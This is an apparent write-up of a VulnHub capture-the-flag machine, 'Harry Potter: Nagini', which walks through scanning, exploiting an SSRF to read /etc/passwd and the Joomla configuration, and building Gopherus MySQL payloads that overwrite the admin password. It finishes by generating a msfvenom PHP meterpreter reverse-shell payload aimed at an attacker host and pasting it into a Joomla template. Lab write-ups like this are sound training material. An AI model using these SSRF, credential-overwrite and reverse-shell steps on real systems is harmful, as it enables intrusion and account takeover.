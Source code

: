 # Walkthrough VULNHUB --> HARRY POTTER: NAGINI

First step is to scan our Netwok to find the machine IP, in my case the host has ip 192.168.1.172.

We use nmap to scan the target machine with the command:

```bash
nmap -sC -sV -p- 192.168.1.174
```

![Alt text](./img/nmap.PNG?raw=true "NMAP Results")

I navigate to the web page to see what it is and to check if we find any visible vulnerability on that page.

![Alt text](./img/web_page_port80.PNG?raw=true "Port 80")

We run a scan on the port 80 with gobuster to search for interesting things.

```bash
gobuster dir --url http://192.168.1.174 -x .php,.js,.txt,.html --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50
```

![Alt text](./img/gobuster.PNG?raw=true "GOBUSTER SCAN")

We start browsing the /note.txt and we find as follow:

```
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

**WE NEED HTTP3!!!!!**

We also need to add **quic.nagini.hogwarts** in our **/etc/hosts**.

After spending some time on internet trying to figure out how to use this http3, I found this guide to enable **curl** with http3 support.

[https://github.com/curl/curl/blob/master/docs/HTTP3.md](https://github.com/curl/curl/blob/master/docs/HTTP3.md)

**NOW I built a new curl with http3 support**

Using curl we do a GET request on https://quic.nagini.hogwarts:

```bash
./curl --http3 https://quic.nagini.hogwarts
```

![Alt text](./img/http3.PNG?raw=true "CURL HTTP3")

We retrieve 2 important informations:
1 /internalResourceFeTcher.php
2 .bak

Let's see what is /internalResourceFeTcher.php

![Alt text](./img/internalFetcher.PNG?raw=true "/internalResourceFeTcher.php")

Let's try to search for a and see the result.

![Alt text](./img/a.PNG?raw=true "/internalResourceFeTcher.php search")

Noted something?

The search append in the url **?url=a**, so let's try to see if there is any **SSRF** vulnerability using in the url **file:///etc/passwd**

```bash
curl http://192.168.1.174/internalResourceFeTcher.php?url=file:///etc/passwd
```

![Alt text](./img/passwd.PNG?raw=true "/etc/passwd")

As you might have noticed, in the webserver there is Joomla, so now let's see if we can access to Jumla configuration file.

```bash
curl http://192.168.1.174/internalResourceFeTcher.php?url=file:///var/www/html/joomla/configuration.php
```

![Alt text](./img/config.PNG?raw=true "/var/www/html/joomla/configuration.php")

Searching on Google "SSRF exploit mysql",
![Alt text](./img/google.PNG?raw=true "Google search")
I found my answers in [Gopherus](https://github.com/tarunkant/Gopherus)

First step with Gopherus is to create a payload that give us the table list so using the command **use joomla; show tables;**.
![Alt text](./img/showTables.PNG?raw=true "SHOW Tables payload")

Appending the payload to curl, does not work.

So, I try to add the payload on the url in the browser. It seems that doesn't work either.

**At the end I pasted the payload in the search and submitted by clicking on Fetch**

If you don't see anything refresh the page, it can take few refresh before something is displayed.

![Alt text](./img/1try.PNG?raw=true "List Tables")

As you can see we can display the tables and we can see that there is a joomla_users table, which we are going to see next by creating another payload with Gopherus as done previously.

The command we are going to run is:

```sql
USE joomla; SELECT * FROM joomla_users
```

We could list the users and find the user **site_admin** and it's password.
![Alt text](./img/joomla_users.PNG?raw=true "Joomla Users")

After trying a lot of MD5 decoder, I decided to create another payload to change the password using **password1234**, so it's hased is **bdc87b9c894da5168059e00ebffb9077**.

Our command will be then:

```sql
use joomla; update joomla_users set password = 'bdc87b9c894da5168059e00ebffb9077' where username='site_admin';select * from joomla_users;
```

![Alt text](./img/newP.PNG?raw=true "New Password")

We are now able to login in the Joomla's administration portal, by going to http://192.168.1.174/joomla/administrator

![Alt text](./img/joomlaAdminLogin.PNG?raw=true "Admin Login")

We can insert **super_admin**/**password1234** and we're in!

![Alt text](./img/adminPage.PNG?raw=true "Admin Page")

We can now modify a template adding a payload that we are going to generate with **msfvenom**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f raw -o test.php
```

![Alt text](./img/msfVenom.PNG?raw=true "MSFVENOM")

Let's start **msfconsole** using **explit/multi/handler** and setting up the payload as **php/meterpreter/reverse_tcp**

![Alt text](./img/msf.PNG?raw=true "MSFCONSOLE")

Next step will be to copy the content of test.php into our joomla template, so let's see what is inside our payload:

```bash
cat test.php
```

![Alt text](./img/payload.PNG?raw=true "Payload")

Now we move into the Admin console and we navigate till the Template editor.

![Alt text](./img/editTemplate.PNG?raw=true "Edit Template")

We are going now to paste our payload in line 9 and we save.

![Alt text](./img/editedTemplate.PNG?raw=true "Edited Template")
